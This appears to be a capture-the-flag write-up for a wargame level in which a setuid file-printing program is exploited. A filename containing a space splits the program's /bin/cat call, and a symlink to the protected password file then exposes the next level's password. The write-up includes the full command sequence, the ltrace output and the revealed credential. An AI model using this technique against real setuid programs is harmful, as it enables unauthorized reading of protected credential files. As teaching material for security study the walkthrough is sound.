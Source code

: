 When we run the executable with no arguments, it prints a usage message.

```bash
leviathan2@leviathan:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
```

Create a directory and a file with a space in the name all in one go

```bash
leviathan2@melinda:~$ mkdir /tmp/cp2 && touch /tmp/cp2/file\ tmp.txt
leviathan2@melinda:~$ cd /tmp/cp2
leviathan2@melinda:/tmp/cp2$ ls -la
total 7864
drwxrwxr-x 2 leviathan2 leviathan2    4096 Dec 29 21:14 .
drwxrwx-wt 1 root       root       8036352 Dec 29 21:14 ..
-rw-rw-r-- 1 leviathan2 leviathan2       0 Dec 29 21:14 file tmp.txt #file we created
```

```bash
leviathan2@leviathan:/tmp/cp2$ ltrace ~/printfile "file tmp.txt"
__libc_start_main(0x565556c0, 2, 0xffffd6f4, 0x565557b0 `<unfinished ...>`
access("file tmp.txt", 4)                                        = 0
snprintf("/bin/cat file tmp.txt", 511, "/bin/cat %s", "file tmp.txt") = 21
geteuid()                                                        = 12002
geteuid()                                                        = 12002
setreuid(12002, 12002)                                           = 0
system("/bin/cat file tmp.txt"/bin/cat: file: No such file or directory
/bin/cat: tmp.txt: No such file or directory
 `<no return ...>`
--- SIGCHLD (Child exited) ---
`<... system resumed>` )                                           = 256
+++ exited (status 0) +++
```

We can see that the function access() and /bin/cat are being called on the file. What access() does is check permissions based on the process’ real user ID rather than the effective user ID.
While access does use the full file path, the cat on the file is not using the full file path. We can see this near the end of the output where /bin/cat/ is being called to tmp.txt as if it were a separate file, it’s really the second half of our filename. This can be exploited if we create a symbolic link from the password file to the file we created in /tmp.

```bash
leviathan2@leviathan:/tmp/cp2$ ln -s /etc/leviathan_pass/leviathan3 /tmp/cp2/file
leviathan2@leviathan:/tmp/cp2$ ls -la
total 20
drwxr-xr-x   2 leviathan2 leviathan2  4096 Aug 31 11:37 .
drwxrwx-wt 168 root       root       16384 Aug 31 11:31 ..
lrwxrwxrwx   1 leviathan2 leviathan2    30 Aug 31 11:37 file -> /etc/leviathan_pass/leviathan3
-rw-r--r--   1 leviathan2 leviathan2     0 Aug 31 11:31 file tmp.txt
```

```bash
leviathan2@leviathan:/tmp/cp2$ ~/printfile "file"
You cant have that file...
leviathan2@leviathan:/tmp/cp2$ ~/printfile "file tmp.txt"
Ahdiemoo1j
/bin/cat: tmp.txt: No such file or directory
```
